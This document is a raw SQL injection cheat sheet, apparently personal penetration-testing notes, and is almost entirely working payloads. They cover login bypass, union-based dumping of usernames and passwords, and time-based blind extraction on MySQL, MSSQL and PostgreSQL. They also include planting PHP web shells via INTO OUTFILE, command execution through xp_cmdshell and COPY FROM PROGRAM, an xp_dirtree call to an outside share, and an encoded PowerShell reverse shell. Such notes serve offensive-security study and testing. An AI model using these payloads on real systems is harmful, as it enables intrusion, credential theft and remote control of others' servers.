

-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
## error based
admin ' or '1'='1
admin' or '1'='1' -- -
admin'-- -
admin' or '1'='1'#
offsec' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' or 1=1 in (select version()) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
tom' or 1=1 LIMIT 1;#
# union based In-band
' ORDER BY 1-- // ## detect number of columns
' UNION SELECT null, null, database(), user(), @@version -- //
## switch order of fields depending on the output
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users --
## mysql retrive colmns
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users -- //
## retrieve the columns table from the information_schema database belonging to the current database
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()
0 UNION SELECT concat('^^^',table_name,':',column_name,'^^^') FROM information_schema.columns
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM <tablename>
◇ id=1 or 1=1
id=1 order by 1
▪ If there is at least one column in the query, the query is valid and the page will render without error
◇ // Now that we know how many columns are in the table, we can use this information to extract further data with a UNION statement. Unions allow us to add a second select statement to the original query
▪ ?id=1 union all select 1,2,3,4,5 // if 5 columns
▪ // extract version @@version
▪ table_name from information_schema.tables
▪ id=1 union all select 1, username, password from users
◇ id=1 order by 2 # and so on to enumerate columns
• admin123' UNION SELECT 1,2,3 where database() like '%';--
try to identify true variable
• admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
• admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
• method 2
' ORDER BY 1;#
' ORDER BY 2; #
## Mysqli union based
'union select 1,schema_name,3,4,5 from information_schema.schemata-- -
'union select 1,table_name,3,4,5 from information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'sys' AND table_schema != 'information_schema' AND table_schema != 'performance_schema'-- -
'union select 1,column_name,3,4,5 from information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'sys' AND table_schema != 'information_schema' AND table_schema != 'performance_schema'-- -
'union select 1,group_concat(username,':',password,':',name),3,4,5 from users-- -
### sometimes you don't need chars '
id=1 union select 1,2,3,group_concat(column_name),5 from information_schema.columns where table_schema = database() and table_name = "users"
?id=5 union select 1,2,3,group_concat(password),5 from users
offsec' AND IF (1=1, sleep(3),'false') -- //
admin123' UNION SELECT SLEEP(5),2;--
## iterate over i in mssql to retrieve databases
and j is database
' IF(UNICODE(SUBSTRING((SELECT TOP 1 ISNULL(CAST(name AS NVARCHAR(4000)),CHAR(32)) FROM master..sysdatabases WHERE name NOT IN (SELECT TOP $j name FROM master..sysdatabases ORDER BY name) ORDER BY name),1,1))>$i) WAITFOR DELAY '0:0:2' --
' IF(UNICODE(SUBSTRING((SELECT TOP 1 ISNULL(CAST(name AS NVARCHAR(4000)),CHAR(32)) FROM master..sysdatabases WHERE name NOT IN (SELECT TOP 3 name FROM master..sysdatabases ORDER BY name) ORDER BY name),$k,1))>96) WAITFOR DELAY '0:0:3'-- lWdG
' IF(UNICODE(SUBSTRING((SELECT TOP 1 ISNULL(CAST(webapp..sysusers.name+CHAR(46)+webapp..sysobjects.name AS NVARCHAR(4000)),CHAR(32)) FROM webapp..sysobjects INNER JOIN webapp..sysusers ON webapp..sysobjects.uid=webapp..sysusers.uid WHERE webapp..sysobjects.xtype IN (CHAR(117),CHAR(118)) AND webapp..sysusers.name+CHAR(46)+webapp..sysobjects.name NOT IN (SELECT TOP 0 webapp..sysusers.name+CHAR(46)+webapp..sysobjects.name FROM webapp..sysobjects INNER JOIN webapp..sysusers ON webapp..sysobjects.uid=webapp..sysusers.uid WHERE webapp..sysobjects.xtype IN (CHAR(117),CHAR(118)) ORDER BY webapp..sysusers.name+CHAR(46)+webapp..sysobjects.name) ORDER BY webapp..sysusers.name+CHAR(46)+webapp..sysobjects.name),5,1))>96) WAITFOR DELAY '0:0:1'-- itlk
## retrieve columns
' IF(UNICODE(SUBSTRING((SELECT ISNULL(CAST(LTRIM(STR(COUNT(name))) AS NVARCHAR(4000)),CHAR(32)) FROM webapp..sysobjects WHERE webapp..sysobjects.xtype IN (CHAR(117),CHAR(118))),1,1))>48) WAITFOR DELAY '0:0:5'-- JaRl
## mssql retriev tables
' IF(UNICODE(SUBSTRING((SELECT ISNULL(CAST(LTRIM(STR(COUNT(name))) AS NVARCHAR(4000)),CHAR(32)) FROM webapp..syscolumns WHERE id=(SELECT id FROM webapp..sysobjects WHERE name=CHAR(117)+CHAR(115)+CHAR(101)+CHAR(114)+CHAR(115))),1,1))>49) WAITFOR DELAY '0:0:5'-- pnNm
# require some privileges and some restrictions to be disabled on the dbms
## e.g sqli FILE permission and file_secure disabled
## load file
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
## SQLi can be used to read and write files on filesystems
### read file
id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
### store backdoor
id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
';SELECT PG_SLEEP(5)-- ## time based
'; SELECT table_name FROM information_schema.tables --
## cmd injection
DROP TABLE IF EXISTS cmd_exec; -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id'; -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec; -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec; -- [Optional] Remove the table
## error based sqli
'; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'cat /var/www/flag.txt'; SELECT * FROM users WHERE 1=cast((SELECT cmd_output FROM cmd_exec)::text AS NUMERIC); -- //

admin'; EXECUTE sp_configure 'xp_cmdshell', 1;-- -
admin'; RECONFIGURE;--
admin'; EXECUTE sp_configure 'show advanced options', 1;-- -
admin'; RECONFIGURE;--
admin'%3bEXEC%20xp_cmdshell%20'whoami'%3b--
# revshell
admin';EXEC xp_cmdshell 'powershell.exe -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEAMQA5AC4AMQAzADQAIgAsADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==';--
## exec xp_ditrtree
q=500'; EXEC xp_dirtree '\\10.10.14.11\share\file'; -- -
## union enum
### dbs
q=500'union select 1,db_name(1),user,4,5,6 -- -
q=500'union select 1,db_name(2),user,4,5,6 -- -
## tables
q=500'union select 1,name,id,4,5,6 FROM streamio..sysobjects WHERE xtype ='U' -- -
q=500'union select 1,CONCAT(name,':',id),3,4,5,6 FROM streamio..sysobjects WHERE xtype ='U' -- -
## columns
q=500'union select 1,string_agg(name,'|'),3,4,5,6 FROM streamio..syscolumns WHERE id = (SELECT id FROM streamio..sysobjects WHERE name = 'movies') -- -
## select users tables
q=500'union select 1,string_agg(CONCAT(username,':',password),'|'),3,4,5,6 FROM streamio..users -- -
q=500'union select 1,db_name(),1337,4,5,6 -- -
Enum db mysql
• general steps
◇ enumerate tables
◇ enumerate columns
◇ query user,password
◇ 1'UNION select user()-- -
◇ 1'UNION select database()-- -
◇ select schema_name from information_schema.schemata
◇ select table_name from information_schema.tables where table_schema = 'registration'
◇ select column_name from information_schema.columns where table_name = 'registration'
◇ select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'" // user privs
◇ look for putting files
◇ select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/myshell.php'